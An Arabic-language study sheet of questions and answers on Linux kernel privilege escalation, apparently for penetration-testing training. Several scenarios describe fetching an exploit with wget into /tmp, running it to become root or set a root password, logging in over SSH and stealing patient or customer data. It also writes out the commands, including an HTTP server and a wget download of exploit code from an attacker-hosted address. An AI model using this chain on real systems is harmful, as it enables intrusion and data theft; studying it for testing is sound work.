 ##### 30. تخيل إنك بتختبر شركة شحن ووصلت لـ Shell، إزاي تستفيد من السيناريو الأول؟  

**بتنزل الثغرة بـ `wget` في `/tmp`، تشغلها، تبقى root، وتتحكم في بيانات الشحن.**

##### 31. لو كنت بتختبر تطبيق طبي ووصلت لـ Shell كـ `www-data`، إزاي تستغل السيناريو التاني؟  
**بتنزل الثغرة بـ `wget`، تشغلها في `/tmp`، تعمل باسورد للـ root، تتصل بـ SSH، وتسرق بيانات المرضى.**

##### 32. لو سيرفر دفع أونلاين لقيت Kernel قديم، إزاي تثبت الضعف باستخدام السيناريو الأول؟  


**بتشغل `python3 -m http.server`، تنزل الثغرة في `/tmp` بـ `wget`، تشغلها، وتبقى root مباشرة.**

##### 33. تخيل إنك بتختبر موقع سفر ووصلت لـ Shell، إزاي تستغل السيناريو التاني؟  

**بتنزل الثغرة في `/tmp`، تشغلها، تعمل باسورد للـ root، تتصل بـ SSH، وتتحكم في الحجوزات.**

##### 34. لو كنت بتختبر منصة عقارية ولقيت Kernel قديم، إزاي تثبت الخطر باستخدام السيناريو الأول؟  

**بتنزل الثغرة بـ `wget` من موقعك، تشغلها في `/tmp`، تبقى root، وتسرق بيانات العقارات.**

##### 35. لو سيرفر بيع تذاكر وصلت لـ Shell، إزاي تستفيد من السيناريو التاني؟  

**بتشغل الثغرة في `/tmp`، تعمل باسورد للـ root، تتصل بـ SSH، وتبلغ إن بيانات العملاء في خطر.**

---

# **أسئلة كتابة كود**
##### 36. اكتب أمر عشان تعرف نوع النظام والـ Kernel.  
  **uname -a**

##### 37. اكتب أمر عشان تعمل جهازك موقع لتحميل الثغرة.  
  **python3 -m http.server**

##### 38. اكتب أمر عشان تنزل الثغرة من موقعك للـ Target.  
  **wget http://192.168.230.251:8000/9542.c**

##### 39. اكتب أمر عشان تدخل مجلد `/tmp` على الـ Target.  
**cd tmp**

##### 40. اكتب أمر عشان تعرف تفاصيل الـ OS زيادة.  
   **lsb_release -a**

---

# **أسئلة الخلاصة**
##### 41. قولي الخلاصة بتاعت السيناريو الأول (الثغرة بتخليك root على طول).  

 "بتنزل الثغرة وتشغلها في tmp، وتبقى root على طول من غير تعقيد!"**

##### 42. قولي الخلاصة بتاعت السيناريو التاني (الثغرة بتخليك تحط باسورد للـ root).  

 "بتنزل الثغرة، تشغلها، تعمل باسورد للـ root، وتخش بيه عن طريق SSH!"**
